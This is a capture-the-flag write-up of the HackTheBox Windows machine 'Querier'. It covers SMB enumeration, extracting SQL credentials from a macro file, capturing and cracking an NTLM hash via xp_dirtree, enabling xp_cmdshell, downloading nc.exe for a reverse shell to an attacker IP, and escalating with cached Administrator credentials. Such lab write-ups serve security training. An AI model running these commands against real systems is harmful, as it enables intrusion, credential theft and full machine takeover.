# Hackthebox - Querier

- Windows


- [Box on HTB](https://app.hackthebox.com/machines/175)

## Nmap

```
sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.125              

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-22 05:32 EDT
Nmap scan report for 10.10.10.125
Host is up (0.022s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-09-22T09:30:42
|_Not valid after:  2052-09-22T09:30:42
| ms-sql-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: QUERIER
|   DNS_Domain_Name: HTB.LOCAL
|   DNS_Computer_Name: QUERIER.HTB.LOCAL
|   DNS_Tree_Name: HTB.LOCAL
|_  Product_Version: 10.0.17763
|_ssl-date: 2022-09-22T09:34:35+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/22%OT=135%CT=1%CU=34869%PV=Y%DS=2%DC=I%G=Y%TM=632C2C
OS:2A%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS=
OS:U)OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS
OS:%O6=M539NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%
OS:DF=Y%T=80%W=FFFF%O=M539NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=
OS:Z)

Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-09-22T09:34:31
|_  start_date: N/A
| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.26 seconds
```

## SMB

- Let's try to list the shares
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L \\10.10.10.125                                                                                                                                                                                                          1 ⨯
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Reports         Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.125 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

- Let's try to connect to Reports. It works

```bash
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 28 18:23:48 2019
  ..                                  D        0  Mon Jan 28 18:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 17:21:34 2019

                6469119 blocks of size 4096. 1611307 blocks available
smb: \> get Currency Volume Report.xlsm 
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \Currency
smb: \> get "Currency Volume Report.xlsm"
getting file \Currency Volume Report.xlsm of size 12229 as Currency Volume Report.xlsm (76.6 KiloBytes/sec) (average 76.6 KiloBytes/sec)
```

- We get a file that is an excel file with macro. With an online research we find [this article by Nairuz Abulhul](https://medium.com/r3d-buck3t/extracting-macros-with-oletools-6c3a64c02549) that mentions
- Using this `olevba Currency\ Volume\ Report.xlsm` we are able to find the password for SQL server  
  
`conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"`

## MS-SQL Server

- We can connect with mssqlclient.py from impacket
- *Note: I was struggling with the impacket command turns out that in order to work the password neeeds to have not double quotes or no quotes BUT single quotes (seems to be because of the dollar sign in the pass)*
- `python3 /opt/impacket/examples/mssqlclient.py QUERIER/reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth`
- We get a shell this way
- Here is an [interesting article from hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#manual) for mssql
- We can list the tables `select * from volume.INFORMATION_SCHEMA.TABLES;`  
  
- We can list users `select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;`  
  
- We do not have enough rights to create a user
- `SELECT CONCAT(sp.name, '***', master.sys.fn_varbintohexstr(sl.password_hash)) from master.sys.server_principals sp LEFT JOIN sys.sql_logins sl ON sp.principal_id = sl.principal_id`  

- We can check the MS SQL version we have `SELECT @@VERSION AS 'SQL Server Version';`  
  
- Itried this for cmd execution but it is not working
```sql
xp_cmdshell {'whoami'}
EXEC master..xp_CMDShell 'whoami'
```
- Check if we have other db `select name from sys.databases;`


- `SELECT * FROM fn_my_permissions(NULL, 'SERVER');` check our user perms  

- Ok we do not have much permissions we should check another way.
- We can try something like this on [Mark Mo's blog](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)
- Let's create a directory in our attacking machine `mkdir querysmb`
- Let's launch smbserver `python3 /opt/impacket/examples/smbserver.py -smb2support myshare querysmb`  
  
- Now we just need to do the exec command to drop the hash `exec xp_dirtree '\\10.10.14.7\myshare\'`
- And it works  
  
- Now let's copy the hash in a txt and try to crack it using hashcat `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`  
  
- Let's try to connect again on sql but with this user.  
  
- Let's check our permissions with this user `SELECT * FROM fn_my_permissions(NULL, 'SERVER');`
- We have many more than previously
- Seems like we could event try xp_cmdshell again

```sql
SQL> EXEC master..xp_CMDShell 'whoami';
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

- Let's try to enable it `enable_xp_cmdshell` if we issue our previous command again it works  
  
- We can get the user flag `EXEC master..xp_CMDShell 'type C:\Users\mssql-svc\Desktop\user.txt';`
- Let's get nc.exe in our target `python3 -m http.server 80`
- `EXEC master..xp_CMDShell 'curl.exe -o C:\Users\mssql-svc\Desktop\nc.exe http://10.10.14.7/nc.exe'` we get it
- `EXEC master..xp_CMDShell 'dir C:\Users\mssql-svc\Desktop\'` we check that it worked
- We set a listener `rlwrap nc -lvp 4444`
- `EXEC master..xp_CMDShell 'C:\Users\mssql-svc\Desktop\nc.exe -e cmd.exe 10.10.14.7 4444'`
- We get a shell  
  

## Privesc

- `systeminfo`
- Let's use wes to see what exploit we could use `python3 /opt/wesng/wes.py --color sysinfo.txt | grep -B 3 -A 5 "Privilege Vulnerability"` I will grep a few lines before and after to have the whole cve info
- I also want to try PowerUp before using any kernel exploit
- `curl.exe -o C:\Users\mssql-svc\Desktop\powerup.ps1 http://10.10.14.7/PowerUp.ps1`
- `powershell -ep bypass`
- `Import-Module .\PowerUp.ps1`
- `Invoke-AllChecks | Out-String -Width 4096`

```dos
Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2144
ProcessId   : 3456
Name        : 3456
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```
- We have a clear password for the Administrator `MyUnclesAreMarioAndLuigi!!1!`
- `python3 /opt/impacket/examples/psexec.py Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125`
- We have an admin shell we can grab the final flag! `type C:\Users\Administrator\Desktop\root.txt`